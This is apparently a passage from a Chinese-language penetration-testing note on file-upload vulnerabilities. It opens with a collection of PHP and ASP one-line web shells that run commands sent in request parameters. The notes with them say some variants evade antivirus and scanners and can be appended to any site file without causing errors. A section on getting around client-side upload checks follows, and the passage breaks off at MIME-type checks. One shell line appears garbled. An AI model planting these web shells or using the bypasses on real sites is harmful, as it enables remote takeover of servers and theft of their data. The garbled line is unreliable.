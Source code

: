 ```
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

<%eval(request(“1″)):response.end%> 备份专用
```

## 1、前端验证
```
			<form enctype="multipart/form-data" method="post" onsubmit="return checkFile()">
                <p>请选择要上传的图片：</p><p>
                <input class="input_file" type="file" name="upload_file">
                <input class="button" type="submit" name="submit" value="上传"></p>
            </form>
```
表单中使用onsumbit="return checkFile()"调用js函数来检查上传文件的扩展名。当用户在**客户端**选择文件点击上传的时候，客户端还没有向服务器发送任何消息，就对本地文件进行检测来判断是否是可以上传的类型，这种方式称为**前台脚本检测扩展名**。

**绕过方法**：  
1、在浏览器中审查元素，删除检测函数  
2、通过改包软件将修改后缀名再上传  
3、浏览器安装插件禁用JS
<br>


## 2、后端验证
在文件被上传到**服务端**的时候，对文件内容、大小和类型进行检测等。

### 2.1 基于MIME(文件类型检测)
**常见类型**：